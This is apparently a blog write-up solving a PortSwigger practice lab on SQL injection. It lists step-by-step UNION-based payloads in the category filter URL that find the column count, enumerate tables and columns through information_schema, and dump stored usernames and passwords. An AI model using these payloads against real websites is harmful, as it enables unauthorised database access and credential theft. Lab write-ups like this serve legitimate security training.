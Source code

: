 ```yaml
---
title: PortSwigger - SQLi 9 - Listing the contents on non-Oracle DB
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user. 

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error!  
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc'--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM information_schema.columns--
````

179 tables are returned... But after sorting those containing `user` one stands out: `users_ijvpsp`.

Let's print the differents columns of the table:

````
<website>/filter?category=Gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ijvpsp'--
````

We obtain 2 columns: `username_gifugn` and `password_zjiaqz`.

Time to show the passwords!

````
/filter?category=Pets' UNION SELECT username_gifugn, password_zjiaqz FROM users_ijvpsp--
````

Password obtained!
